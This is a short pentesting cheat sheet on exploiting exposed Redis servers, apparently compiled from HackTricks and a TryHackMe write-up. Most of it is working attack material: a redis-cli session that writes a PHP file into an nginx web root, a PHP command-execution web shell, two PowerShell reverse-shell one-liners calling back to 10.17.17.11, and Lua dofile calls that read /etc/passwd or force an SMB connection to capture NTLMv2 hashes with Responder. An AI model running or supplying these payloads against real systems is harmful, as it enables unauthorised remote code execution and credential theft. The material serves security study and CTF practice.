

# Redis
default port is 6379, use `redis-cli -h <IP>` to remote access and use `info` to get database info.

Some interesting commands are `client list` and `CONFIG GET *` .

Inside Redis the **databases are numbers starting from 0**. You can find if anyone is used in the output of the command `info` inside the "Keyspace" chunk:



**Dump the database with npm** [**https://www.npmjs.com/package/redis-dump**](https://www.npmjs.com/package/redis-dump) 

`**root@Urahara:~# redis-cli -h 10.85.0.52**`  
`**10.85.0.52:6379> config set dir /usr/share/nginx/html**`  
`**OK**`  
`**10.85.0.52:6379> config set dbfilename redis.php**`  
`**OK**`  
`**10.85.0.52:6379> set test "<?php phpinfo(); ?>"**`  
`**OK**`  
`**10.85.0.52:6379> save**`  
`**OK**`

```text-plain
<?php echo system($_GET['cmd']); ?>
```

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) 

```text-plain
set x "\r\n\r\npowershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.17.17.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\r\n\r\n"
```

[https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/vulnnetactive.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/vulnnetactive.md) 

The Redis instance was running version 2.8, and did not require authentication. However, this version of Redis contains a 'vulnerability' where you can use `'dofile'` in the LUA sandbox, allowing you to access files or network shares. E.g.   
`EVAL "dofile('/etc/passwd')" 0` would work on a linux machine.  
For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.

Setting up responder from this repo [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder) , then using something like `EVAL "dofile('//10.17.17.11//share')" 0` will catch an NTMLv2 hash.  
 

```text-plain
$client = New-Object System.Net.Sockets.TCPClient('10.17.17.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```